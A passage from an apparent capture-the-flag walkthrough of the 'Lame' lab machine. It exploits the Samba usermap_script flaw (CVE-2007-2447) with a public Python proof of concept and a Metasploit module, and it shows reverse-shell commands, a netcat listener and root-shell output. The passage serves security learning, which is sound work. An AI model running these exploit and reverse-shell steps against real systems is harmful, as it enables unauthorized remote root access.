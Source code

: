 ### Python Script

Some Googling led me to [this GitHub](https://github.com/amriunix/CVE-2007-2447) with a Python POC for the exploit. I can get a shell easily, by following the “install” instructions and then running the script:

```

root@kali# python usermap_script.py 10.10.10.3 139 10.10.14.24 443
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !

```

Sure enough, I get a shell from Lame:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:44666.
id
uid=0(root) gid=0(root)

```

### With Metasploit

I can also do this with Metasploit.

```

msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf5 exploit(multi/samba/usermap_script) > set lhost tun0
lhost => 10.10.14.24
msf5 exploit(multi/samba/usermap_script) > set lport 443
lport => 443

```

Now I can check out the options and make sure everything looks right:

```

msf5 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target address range or CIDR identifier
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port

```